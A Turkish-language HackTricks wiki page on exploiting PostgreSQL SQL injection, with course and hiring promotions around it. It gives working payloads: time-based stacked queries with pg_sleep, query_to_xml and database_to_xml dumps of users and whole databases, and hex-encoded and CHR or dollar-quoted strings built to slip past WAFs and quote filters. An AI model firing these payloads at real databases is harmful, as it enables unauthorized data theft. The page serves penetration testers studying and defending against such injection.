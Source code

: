 # PostgreSQL injection

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hacking kariyerine** ilgi duyuyorsanız ve hacklenemez olanı hack etmek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Bu sayfa, bir postgresql veritabanında bulunan bir SQL enjeksiyonunu istismar etmenize yardımcı olabilecek farklı ipuçlarını açıklamayı ve** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **bulabileceğiniz ipuçlarını tamamlamayı amaçlamaktadır.**

## Ağ Etkileşimi - Yetki Yükseltme, Port Tarayıcı, NTLM zorluk yanıtı ifşası & Exfiltration

**PostgreSQL modülü `dblink`**, diğer PostgreSQL örneklerine bağlanma ve TCP bağlantıları gerçekleştirme yetenekleri sunar. Bu özellikler, `COPY FROM` işlevselliği ile birleştirildiğinde, yetki yükseltme, port tarama ve NTLM zorluk yanıtı yakalama gibi eylemleri mümkün kılar. Bu saldırıları gerçekleştirmek için detaylı yöntemler için [bu saldırıları nasıl gerçekleştireceğinizi](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md) kontrol edin.

### **dblink ve büyük nesneler kullanarak exfiltration örneği**

Büyük nesnelerin içine veri yükleme ve ardından `dblink_connect` fonksiyonunun kullanıcı adı içindeki büyük nesnelerin içeriğini exfiltrate etme ile ilgili bir CTF örneğini [**bu örneği okuyarak**](dblink-lo_import-data-exfiltration.md) görebilirsiniz.

## PostgreSQL Saldırıları: Okuma/yazma, RCE, yetki yükseltme

PostgreSQL'den ana makineyi nasıl tehlikeye atacağınızı ve yetkileri nasıl yükselteceğinizi kontrol edin:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF atlatma

### PostgreSQL Dize işlevleri

Dizeleri manipüle etmek, **WAF'ları veya diğer kısıtlamaları atlatmanıza** yardımcı olabilir.\
[**Bu sayfada**](https://www.postgresqltutorial.com/postgresql-string-functions/) **bazı yararlı Dize işlevlerini bulabilirsiniz.**

### Yığın Sorgular

PostgreSQL'nin yığın sorguları desteklediğini unutmayın, ancak birçok uygulama yalnızca 1 yanıt beklerken 2 yanıt döndüğünde hata verecektir. Ancak, yine de zaman enjeksiyonu yoluyla yığın sorguları kötüye kullanabilirsiniz:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML hileleri

**query\_to\_xml**

Bu fonksiyon, tüm verileri yalnızca bir dosyada XML formatında döndürecektir. Tek bir satırda çok fazla veri dökmek istiyorsanız idealdir:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Bu fonksiyon, tüm veritabanını yalnızca 1 satırda XML formatında dökecektir (veritabanı çok büyükse dikkatli olun, çünkü bunu DoS yapabilir veya hatta kendi istemcinizi etkileyebilirsiniz):
```sql
SELECT database_to_xml(true,true,'');
```
### Hex'teki Dize

Eğer **sorguları** **bir dize içinde** çalıştırabiliyorsanız (örneğin **`query_to_xml`** fonksiyonunu kullanarak). **Dizeyi hex olarak geçmek ve bu şekilde filtreleri atlatmak için convert\_from kullanabilirsiniz:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Yasaklı alıntılar

Eğer yüklemeniz için alıntı kullanamıyorsanız, bunu `CHR` ile aşabilirsiniz. Temel ifadeler için (_karakter birleştirme yalnızca SELECT, INSERT, DELETE gibi temel sorgular için çalışır. Tüm SQL ifadeleri için çalışmaz_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ya da `$` ile. Bu sorgular aynı sonuçları döndürür:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hackleme kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hackleme öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hackleme öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hackleme ipuçlarını paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
